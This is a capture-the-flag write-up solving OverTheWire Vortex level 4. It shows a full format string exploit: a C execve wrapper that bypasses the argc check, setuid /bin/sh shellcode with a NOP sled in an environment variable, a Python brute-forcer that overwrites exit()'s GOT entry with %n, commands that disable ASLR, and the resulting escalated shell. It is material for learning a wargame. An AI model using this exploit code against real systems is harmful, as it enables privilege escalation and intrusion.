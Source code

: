 ```yaml
---
title:  "[CTF] OverTheWire Vortex Level 4"
---
```


![Logo](/assets/images/vortex4.png)

## Context

[This level](http://overthewire.org/wargames/vortex/vortex4.html) looks like a simple 3 lines program, containing a common issue - format string vulnerability:
```c
int main(int argc, char **argv)
{
 if(argc) exit(0);
 printf(argv[3]);
 exit(EXIT_FAILURE);
}
```

## 1. Bypass the check for arguments count
The program exits if the argc variable is different than 0 (if(argc) exit(0);). argc variable represents the length of argv array, which has on the first position the program name (the name appearing on top and like utilities, for example). So argc is always >=1.
If we know how arguments (and environment variables) are passed to the main function when executing the binary,  we can bypass the verification and also pass something meaningful to printf in argv[3] argument.  The stack looks like this:
```
| argc | argv[0] | argv[1] ... |argv[argc-1]| NULL |env[0]|...|env[n]|NULL|
```
Where the first NULL indicates the end of the argv array, and the second one the end of the environment variables array. So if we pass NULL as the argv array, when the program tries to access argv[3], it will in fact access env[2], because the stack would look like this (argv[0] points to the NULL byte):
```
| 0 | NULL | env[0] | env[1] | env[2] | ...
```

In Python I couldn't call one of the exec functions with argv set to NULL, so I've used the classic method:
```c
char exe[] = "/vortex/vortex4";
 
char* argv[] = { NULL }; 
char* env[] = {"env0", "env1", "TEST", NULL};
 
execve(exe, argv, env);
```

2.  Now we know we have to pass the format string attack into an environment variable. We have to find out the approximate location of the environment variables in the memory. The vortex labs machine has ASLR disabled. We can test with and without ASLR to see the variation of the environment variables' address, using the following simple program:
```c
/* 
 * Test program to find the location of envirnment variables on stack.
 *  - test with/without ASLR
 * 
 * To disable ASLR: 
 * echo 0 > /proc/sys/kernel/randomize_va_space
 * 
 * To enable ASLR:
 * echo 2 > /proc/sys/kernel/randomize_va_space
 * 
 */
 
#include <stdio .h>
 
extern char **environ;
 
/* Return the current stack pointer */
unsigned long find_esp(void){
 // Copy stack pointer into EAX
    __asm__("mov %esp, %eax");
     
    // Return value of the function is in EAX
}
 
int  main() {
 char **env = NULL;
  
    for (env = environ; *env; ++env)
        printf("%p:\t%s\n", env, *env);
 
    unsigned long p = find_esp(); 
    printf ("Current stack pointer: Ox%lx\n" , p) ;
         
    return 0;
}
```

3. We decide an address to overwrite to change the flow of the program. We can use the same trick as in the previous level: replace the address of exit() function in .plt (which is called at the end of the program), which we find by searching relocations sections in the binary:
```bash
vortex4@melissa:/vortex$ readelf -r ./vortex4
[..]
Relocation section '.rel.plt' at offset 0x294 contains 4 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a000  00000107 R_386_JUMP_SLOT   00000000   __gmon_start__
0804a004  00000207 R_386_JUMP_SLOT   00000000   __libc_start_main
0804a008  00000307 R_386_JUMP_SLOT   00000000   printf
0804a00c  00000407 R_386_JUMP_SLOT   00000000   exit
```

4. Plan: place a shellcode (I've used the same 32 bytes I've used in the previous level, setuid+execve) in  the environment variable, with a big NOP sled before (I've used 500 bytes). In the format string before, try to overwrite the address we found above, 0x0804a00c (which I've actually replaced in 4 bytes: 0x0804a00c, 0x0804a00d, 0x0804a00e, 0x0804a00f. A method to overwrite it with only 2 replaces instead of 4 is described in the referred documentation).
This was actually the harder part. I've made a python wrapper over the C wrapper containing execve instruction, that passes (and finally brute-forces) different format strings.
A good exercise is first to try to read memory (using %x or %s instead of %n for writing), to find the actual position of the format string on the stack. This will actually be quite different than the examples from [1]. I actually found that I needed 106 bytes to get to the format string on the stack.
A trick that can be used here: direct parameter access in printf ($), detailed in the Single Unix Specification ([4]). For me, I could access the format string with the following parameter:
?
1
fmt = "AAAABBBBCCCCDDDD..." + "%106$x%107$x%108$x%109$x"
I've adjusted it with fillers ('.'), and tuned the offset untl reach the correct one, 106.
The python script mentioned:
?
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
import subprocess
 
''' 
Script to pass the format string and address to be overwritten to
the vortex 4 wrapper binary
'''
 
# 4 bytes to be modified (address of exit() in .plt - 0x0804a00c)
addr =  "\x0c\xa0\x04\x08" + \
        "\x0d\xa0\x04\x08" + \
        "\x0e\xa0\x04\x08" + \
        "\x0f\xa0\x04\x08"
 
# Read it, after many trial and errors
#fmt = "AAAABBBBCCCCDDDD..." + "%106$x%107$x%108$x%109$x"
 
for i in range(1, 255):
        for j in range(1, 255):
                fmt = addr + "...." + \
                "%106$n%5$0" + str(i) + "d" + \
                "%107$n%5$0" + str(j) + "d" + \
                "%108$n" + \
                "%109$n"
                print "%d %d fmt: %s: " % (i, j, fmt)
                p = subprocess.Popen(['/tmp/myl4', fmt])
                 
                p.wait()
                # Ctrl-D to continue
5. And the C wrapper with execve over vortex4 binary:
```c
/*
 * Wrapper over vortex 4 binary: 
 *  - byapss first argc check
 *  - pass shellcode in environment variable
 *  - receive format string from python wrapper (.. easier) 
 */
 
#include <stdio .h>
#include <string .h>
 
/* 32 bytes setuid(0) + execve("/bin/sh",["/bin/sh",NULL]); */
char shellcode[] = "\x6a\x17\x58\x31\xdb\xcd\x80\x31\xd2\x6a\x0b\x58\x52"
        "\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53"
        "\x89\xe1\xcd\x80";
 
char padding[500];
char NOP = '\x90';
int nops = 500;
 
int main(int argc, char **args) {
 char exe[] = "/vortex/vortex4";
 char sh[600] = {0};
  
 // Fill with lots of NOPs to make sure we reach the shellcode
 memset(padding, NOP, nops);
  
 memcpy(sh, padding, nops);
 memcpy(sh+nops, shellcode, strlen(shellcode));
  
 // argc wil be 0, because argv[0] is not set
 char* argv[] = { NULL }; 
 char* env[] = {"env0", "env1", args[1], sh, NULL};
 
 execve(exe, argv, env);
  
 return 0;
}
```

6. Putting all together we get the pass: 
```bash
vortex4@melissa:/tmp$ vim myl4.c
vortex4@melissa:/tmp$ vim myl4.py
vortex4@melissa:/tmp$ gcc -o myl4 myl4.c
vortex4@melissa:/tmp$ python myl4.py
[..]
202 33 fmt: 
���....%106$n%5$0202d%107$n%5$033d%108$n%109$n: 
$ id
uid=5004(vortex4) gid=5004(vortex4) euid=5005(vortex5) groups=5005(vortex5),5004(vortex4)
$ cat /etc/vortex_pass/vortex5
*****
```
